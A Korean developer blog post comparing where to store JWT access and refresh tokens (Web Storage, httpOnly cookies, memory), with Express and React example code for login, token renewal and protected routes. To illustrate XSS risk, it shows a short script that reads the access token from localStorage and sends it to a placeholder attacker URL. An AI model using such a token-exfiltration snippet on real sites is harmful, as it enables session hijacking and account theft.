


## 세션과 토큰

HTTP 프로토콜은 stateless 하기 때문에 이전에 요청을 보냈던 클라이언트와 다음에 요청을 보낸 클라이언트가 동일하다는 보장이 없다.

그래서 특정 사용자를 식별하기 위해서는 인증과 인가를 구현해줘야 하는데, 어떤 방식으로 처리할지는 크게 두 가지로 구분할 수 있다:

- **세션**: 클라이언트는 간단한 ID만 가지고, 상세한 인가 정보는 서버가 가지고 있는 방식이다.  
  사용자를 로그아웃 시키는 로직을 만든다거나 보안 정책에 따라서 유연하게 다룰 수 있다는 장점이 있지만 서버가 여러 대인 경우에는 세션 정보를 어떻게 공유할지부터 시작해서 서버의 리소스 부담이 비교적 크다.

- **토큰**: 클라이언트가 갖고 있는 토큰 자체가 인가 정보가 되는 것으로 서버가 시크릿 키로 복호화가 가능하다면 유효한 토큰으로 인식한다.
  토큰의 페이로드에 사용자 이름이나 권한 등급같은 정보도 함께 보낼 수 있어서 서버의 부담이 비교적 적으나, 페이로드의 내용은 디코딩하면 누구나 확인할 수 있기 때문에 비밀번호와 같은 중요한 정보는 담으면 안된다.

## 토큰을 사용한다면?

토큰 방식을 사용한다고 하면 JWT 토큰이 표준으로써 많이 사용 되는데, 다음 문제들에 대해서 늘 고민이 많았었다.

1. 토큰이 악의적인 목적으로 탈취되지 않도록 XSS, CSRF 등의 공격으로부터 최대한 안전해야 함.
2. 토큰이 자주 만료되어서 다시 로그인해야 하는 사용자의 불편함을 방지해야 함.
3. 새로고침하거나 다른 탭에서도 로그인이 유지되어야 함.
4. 로그인, 비로그인 상태에 따른 페이지 접근 제한을 적절하게 구현해야 함.

보통 사용자가 직접 자신의 리소스에 접근할 권리를 보장하는 토큰을 **액세스 토큰**이라는 이름으로 짧은 만료 기간으로 발급하고, 액세스 토큰이 만료되었을 때 다시 로그인해야 하는 불편함을 방지하기 위해서 새로운 토큰을 발급할 수 있는 **리프레쉬 토큰**을 긴 만료 기간으로 발급하는 편이다.

### 선택지

그럼 클라이언트에서는 과연 액세스 토큰과 리프레쉬 토큰을 각각 어디에 보관해야 적절할까? 선택지는 크게 3가지가 있을 것 같다.

1. 로컬 스토리지, 세션 스토리지 등 **Web Storage**에 저장하기
2. **쿠키**에 저장하기
3. 변수나 State 등의 **메모리**에 저장하기

그럼 각각의 선택지를 선택했을 때의 문제점은 없을지 정리해보자면..

### 1. Web Storage

새로고침 시에도 정보가 남아있기 때문에 로그인 유지 기능을 구현하기에도 용이해서 자주 사용했던 방법이다.

그런데 보안상으로 문제가 있는데.. **XSS 공격에 매우 취약**하다는 것이다.

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <script>
      if (localStorage.getItem("accessToken")) {
        document.location =
          "https://해커의URL.com?accessToken=" +
          localStorage.getItem("accessToken")
      }
    </script>
  </head>
  <body></body>
</html>
```

누구나 자바스크립트로 토큰의 정보를 긁어올 수 있기 때문에 문제가 생긴다.

물론 웹 애플리케이션에 접근 가능한 모든 기능에서 원초적으로 XSS 공격이 불가능 하도록 막아 놓는다면 큰 문제가 되지는 않을 수도 있겠지만, 만에 하나라도 스크립트를 심을 수 있는 취약점이 발생하는 경우에는 그대로 사용자의 액세스 토큰정보를 공격자에게 건네주기 쉬운 구조가 되어 버린다.

그래서 액세스 토큰은 **공격자가 자바스크립트로 쉽게 꺼낼 수 없는 곳에 보관해야 한다**는 결론이 나온다.



[JWT Introduction](https://jwt.io/introduction) 에서도 브라우저의 스토리지에는 민감한 정보를 넣지 말라는 구문이 있다.

### 2. 쿠키

그렇다면 액세스 토큰을 httpOnly 쿠키에 보관하면 어떨까? httpOnly 쿠키는 브라우저에서 자바스크립트로 값을 읽거나 쓸 수 없기 때문에 안전하지 않을까?

맞지만, 이번에는 **CSRF 공격**에 취약해진다.



만약 은행 송금이나 관리자 전용 기능 등 특정 사용자만 접근 가능해야 할 API를 공격자가 분석하고, 피해자의 브라우저가 해당 API를 호출하거나 폼 전송을 하게끔 피해자를 유도한다면.. 영문도 모른 채 계좌에서 돈이 인출 되어 버리는 불상사가 발생할 것이다.

물론 SameSite 쿠키같은 옵션을 준다거나, CSRF Token 기법을 활용해서 보호하는 방법도 있겠지만, 결론적으로는 실제로 권한을 갖게 되는 **액세스 토큰은 쿠키에 보관하는 것도 무리가 있다**는 결론이 나온다.

### 3. 메모리

그렇다면 마지막으로는 변수나 상태같은 메모리에 저장하는 것이 남는다. 뒤에 이어서 나올 예시 코드에서는 State 에 보관하고, 그 값을 Context 로 감싸서 전역에서 현재 접속한 사용자의 정보를 공유해서 사용할 수 있게끔 했다.

이렇게 메모리에 저장한다면 어찌저찌 브라우저의 메모리를 캡처해서 액세스 토큰의 값을 가져오는 것이 가능할 순 있겠으나, 공격자가 스크립트를 심어서 액세스 토큰을 탈취하는 공격은 어려워진다.

그런데 문제점이 한 가지 있는데, 액세스 토큰을 메모리에 저장하다보니 새로고침을 하거나 새로운 탭을 열었을 때 토큰이 날아가버려서 로그인이 풀리는 현상이 발생할 것이다.
그래서 리프레쉬 토큰을 브라우저에 계속 유지될 수 있는 곳에 보관하고, 앱이 처음 실행되어서 메모리에 액세스 토큰이 없는 경우에 리프레쉬 토큰을 가지고 새로운 액세스 토큰을 발급하는 API 요청을 서버에 보내면 된다.

### 요약

- **액세스 토큰**: 사용자에게 인가된 기능을 바로 사용할 수 있게 해주는 토큰이므로, XSS나 CSRF로부터 안전하도록 **메모리에 저장**한다.
- **리프레쉬 토큰**: 브라우저에 계속 남아있기 위해서 **httpOnly 쿠키** 에 저장한다.  
  CSRF 공격에는 취약해질 순 있지만, 리프레쉬 토큰 자체가 권한에 관련된 어떤 기능을 수행할 수 있는게 아니라 오직 액세스 토큰의 재발급에만 사용할 수 있게끔 하면 된다.

## 예제

고민했던 내용을 바탕으로 실제로 로직을 작성해보았다.  
[Github 레포지토리](https://github.com/bbearcookie/auth-playground)

### 백엔드

[backend/src/utils/jwt](https://github.com/bbearcookie/auth-playground/blob/main/backend/src/utils/jwt.ts) 에 토큰과 관련한 로직을 작성했는데, `verifyAndRenewToken()` 함수의 경우에는 액세스 토큰이 만료되었으면 리프레쉬 토큰으로 새로운 토큰을 발급하게끔 했다.

#### 로그인

[POST /auth/signin](https://github.com/bbearcookie/auth-playground/blob/main/backend/src/handlers/auth/signin/post.ts) 에 요청하면 액세스 토큰과 리프레쉬 토큰을 발급한다.

- 액세스 토큰: **Response 데이터**에 담아서 보내준다.
- 리프레쉬 토큰: **httpOnly 쿠키**에 담아서 보내준다.

> 여기서 하나 알게된 것이 있는데 쿠키의 만료시간을 주지 않으면 브라우저가 종료시에 삭제되게 된다. 즉, 새로운 탭을 열거나 새로고침을 해도 리프레쉬 토큰은 남아있지만 브라우저를 모두 닫으면 삭제된다.

```ts
const handler: Handler = async (req, res) => {
  const { body } = (req as unknown) as RequestData
  const { username, password } = body

  const user = await User.findOne({ username })
  if (!user) return res.status(404).json("유저를 찾을 수 없습니다.")

  const encryptedPassword = encryptText(password, user.salt)
  if (encryptedPassword !== user.password)
    return res.status(401).json("비밀번호가 다릅니다.")

  const payload = { username: user.username }
  const accessToken = signToken("accessToken", payload)
  const refreshToken = signToken("refreshToken", payload)

  res.cookie("refreshToken", refreshToken, { httpOnly: true })
  res.json({ username: user.username, accessToken })
}
```

#### 로그인 검증

[GET /auth/check/get](https://github.com/bbearcookie/auth-playground/blob/main/backend/src/handlers/auth/check/get.ts) 에 요청하면 액세스 토큰이 아직 유효한지 체크하고, 만료되었다면 재발급을 받는다.

```ts
const handler: Handler = async (req, res) => {
  const { accessToken } = req
  const { refreshToken } = req.cookies

  const renewed = verifyAndRenewToken(accessToken ?? "", refreshToken)

  if (renewed.result === "fail") {
    res.clearCookie("refreshToken")
    return res.status(401).json("Invalid RefreshToken")
  }

  res.json({
    accessToken: renewed.accessToken,
    username: renewed.payload.username,
  })
}
```

### 프론트엔드

#### 로그인 Context

로그인 정보는 전역적으로 사용되기때문에 Context로 감싸서 공유했다.

```ts
export const AuthProvider = ({ children }: PropsWithChildren) => {
  const [accessToken, setAccessToken] = useState("")
  const [user, setUser] = useState({
    username: "",
  })
  const [isLoading, setIsLoading] = useState(true)
  const isLoggedIn = useMemo(() => !!accessToken, [accessToken])

  const handleLogin = useCallback((accessToken: string, username: string) => {
    setAccessToken(accessToken)
    setUser({ username })
  }, [])

  const handleLogout = useCallback(() => {
    setAccessToken("")
    setUser({ username: "" })
    signOut()
  }, [])

  const handleCheck = useCallback(async () => {
    setIsLoading(true)

    try {
      const data = await check(accessToken)
      handleLogin(data.accessToken, data.username)
      console.log(`${data.username} 님은 로그인 중이십니다.`)
    } catch (err) {
      handleLogout()
      console.log("로그인이 필요합니다.")
    } finally {
      setIsLoading(false)
    }
  }, [accessToken, handleLogin, handleLogout])

  const contextValue = useMemo(
    () => ({
      isLoading,
      isLoggedIn,
      accessToken,
      user,
      handleLogin,
      handleLogout,
      handleCheck,
    }),
    [
      isLoading,
      isLoggedIn,
      accessToken,
      user,
      handleLogin,
      handleLogout,
      handleCheck,
    ]
  )

  return (
    <AuthContext.Provider value={contextValue}>{children}</AuthContext.Provider>
  )
}
```

#### 로그인

[/signin](https://github.com/bbearcookie/auth-playground/blob/main/client/src/pages/Signin.tsx) 경로에 접속하면 등장하는 로그인 페이지에서 로그인에 성공하면 액세스 토큰과 아이디 정보를 Context로 공유하고 있는 상태에 업데이트한다.

```tsx
const handleSubmit = async (e: React.FormEvent<HTMLFormElement>) => {
  e.preventDefault()

  try {
    const data = await signIn(form)

    handleLogin(data.accessToken, data.username)
    setMessage(
      `어서오세요 ${data.username}님! 당신의 토큰은 ${data.accessToken}`
    )
  } catch (err) {
    if (err instanceof AxiosError) {
      setMessage(err.response?.data)
    }
  }
}
```

#### 로그인 확인

액세스 토큰이 메모리에 저장되어 있기 때문에, 새로고침이나 새로운 탭을 열게되면 토큰이 날아가고 로그인이 풀려버리는 불편함이 있다.  
그래서 리액트의 최초 렌더링이 발생할 때 리프레쉬 토큰을 가지고 새로운 액세스 토큰을 받아오는 API 요청을 수행하게 했다.

react-router-dom v6를 이용해서 최상위 라우팅 경로에서 Root 레이아웃을 출력하도록 했다.  
그리고 렌더링이 끝나면 API 요청을 수행하고 액세스 토큰을 상태에 보관한다.

```tsx
const Root = () => {
  const { handleCheck } = useContext(AuthContext)

  useEffect(() => {
    handleCheck()
  }, [])

  return (
    <>
      <Header />
      <Outlet />
    </>
  )
}
```

#### Protected Route

회원만 접근 가능한 페이지를 구현해보았다. 여기서 중요한 부분은 새로운 액세스 토큰을 발급하는 로직은 모든 렌더링이 끝난 이후에야 수행되기 때문에, 아직 로그인 확인 API를 처리중일 때에는 실제 내용을 보여주면 안된다는 점이다.

그래서 전역 Context의 `isLoading` 의 초기 값을 `true` 로 해놓고, 전체 페이지에서는 아직 실제 내용을 보여주지도, 로그인 페이지로 리다이렉션 시키지도 않는다.

```tsx
const OnlyUser = () => {
  const { isLoading, isLoggedIn } = useContext(AuthContext)

  if (isLoading) {
    return <div>로그인 상태 확인중...</div>
  }

  if (!isLoggedIn) {
    return <Navigate to="/signin" />
  }

  return (
    <div>
      <h1>여긴 회원만 볼 수 있는 페이지입니다.</h1>
      <div>
        <Link to="/">메인으로 가기</Link>
      </div>
    </div>
  )
}
```

그런데 회원만 접근 가능한 페이지를 만들 때마다 이런 로직을 일일히 적어야 한다면 굉장히 반복적일 것이다.

그래서 회원만 접근 가능한 페이지와 비회원만 접근 가능한 페이지를 각각 하나의 레이아웃으로 만들었다.

```tsx
const Authorization = () => {
  const { isLoading, isLoggedIn } = useContext(AuthContext)

  if (isLoading) {
    return <div>로그인 상태 확인중...</div>
  }

  if (!isLoggedIn) {
    return <Navigate to="/signin" />
  }

  return <Outlet />
}
```

```tsx
const NotAuthorization = () => {
  const { isLoading, isLoggedIn } = useContext(AuthContext)

  if (isLoading) {
    return <div>로그인 상태 확인중...</div>
  }

  if (isLoggedIn) {
    return (
      <div>
        <div>비회원만 볼 수 있는 페이지라 당신은 들어갈 수 없어요!</div>
        <div>로그아웃을 해주세요.</div>
        <Link to="/">메인으로 가기</Link>
      </div>
    )
  }

  return <Outlet />
}

export default NotAuthorization
```

이제 라우팅을 설정할 때 각각의 레이아웃 하위에 페이지를 설정하면 접근 권한에 따라서 컨텐츠를 보여줄 수도, 리다이렉션 시킬 수도 있다.

#### 전체 라우팅 내용

```ts
const defaultRoute: RouteObject[] = [
  {
    path: "/",
    element: <Main />,
  },
  {
    path: "/signup",
    element: <SignupForm />,
  },
  {
    path: "/signin",
    element: <SigninForm />,
  },
]

const authorizationRoute: RouteObject[] = [
  {
    path: "/",
    element: <Authorization />,
    children: [
      {
        path: "/onlyuser",
        element: <OnlyUser />,
      },
    ],
  },
]

const notAuthorizationRoute: RouteObject[] = [
  {
    path: "/",
    element: <NotAuthorization />,
    children: [
      {
        path: "/onlyguest",
        element: <OnlyGuest />,
      },
    ],
  },
]

const router = createBrowserRouter([
  {
    path: "/",
    element: <Root />,
    children: [
      ...defaultRoute,
      ...authorizationRoute,
      ...notAuthorizationRoute,
    ],
  },
])
```

## 고민되는 내용

Protected Route를 구현하는 방법에 대해서는 아직도 고민이 된다.

우선 이번에는 공통 레이아웃 컴포넌트에 로직을 놓는 방식으로 구현했는데, 그렇다보니 실제 컴포넌트마다 다른 로딩화면을 보여줘야 한다거나.. 혹은 리다이렉션 시킬 페이지를 직접 부여하고 싶다거나 하는 경우에는 어떻게 해결해야 할지가 고민이다.

HOC 패턴으로 실제 컴포넌트에서 직접 래핑하는 구조로 해야 할지, 아니면 Suspense 컴포넌트를 이용해서 어떻게 잘 처리하는 방법이 없을까?

## 참고 자료

[Access Token과 Refresh Token을 어디에 저장해야 할까?](https://velog.io/@ohzzi/Access-Token%EA%B3%BC-Refresh-Token%EC%9D%84-%EC%96%B4%EB%94%94%EC%97%90-%EC%A0%80%EC%9E%A5%ED%95%B4%EC%95%BC-%ED%95%A0%EA%B9%8C)  
[LocalStorage vs. Cookies: JWT 토큰을 안전하게 저장하기 위해 알아야할 모든것](https://hshine1226.medium.com/localstorage-vs-cookies-jwt-%ED%86%A0%ED%81%B0%EC%9D%84-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EC%A0%80%EC%9E%A5%ED%95%98%EA%B8%B0-%EC%9C%84%ED%95%B4-%EC%95%8C%EC%95%84%EC%95%BC%ED%95%A0-%EB%AA%A8%EB%93%A0%EA%B2%83-4fb7fb41327c)
